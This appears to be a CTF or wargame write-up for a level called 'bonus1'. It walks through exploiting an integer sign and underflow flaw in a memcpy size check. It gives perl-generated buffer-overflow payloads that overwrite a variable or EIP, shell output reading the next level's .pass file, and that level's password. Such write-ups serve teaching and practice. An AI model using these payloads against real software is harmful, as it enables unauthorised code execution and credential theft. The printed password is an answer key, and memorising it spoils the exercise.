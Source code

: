 # bonus1

The source of this level is quite simple.

All we need is to enter a number inferior to 9 (first argument) and a string (second argument).

The program will copy `x` bytes from the second argument to the string. `x` is 4x the number.

To exec `/bin/sh`, the number need to be exactly `0x574f4c46 -> 1464814662`.

# Exploit

If we enter a negative number, this number is inferior to 9 and in the memcpy, the number will be casted to a positive number.

The number variable is 40 oct after the string so we only need to copy 44 chars.

```bash
# ./bonus1 <int-min>-11 "40 char + 1464814662"
> ./bonus1 -2147483637 "`perl -e 'print "A"x40 . "\x46\x4c\x4f\x57"'`"
cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

```
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

# Alternative
Let's use underflow to pass the security

```
-4294967296 = 0
(-4294967296 + 100)/4 = -1073741799
```

```
r -1073741799 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

pattern search
Registers contain pattern buffer:
EIP+0 found at offset: 56
```

# Exploit 2

We just need to set EIP to jump to:
`0x08048482 <+94>:	movl   $0x0,0x8(%esp)`
`0x 08 04 84 82`

```bash
> ./bonus1 -1073741799 $(perl -e 'print "A"x(56) . "\x82\x84\x04\x08" . "A"x(100 - 56 - 4)')

sh: 1: nonzero_return: not found
\[\e[32m\]\u\[\e[m\] \[\e[33m\]\w\[\e[m\] \[\e[31m\]\[\e[m\]$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
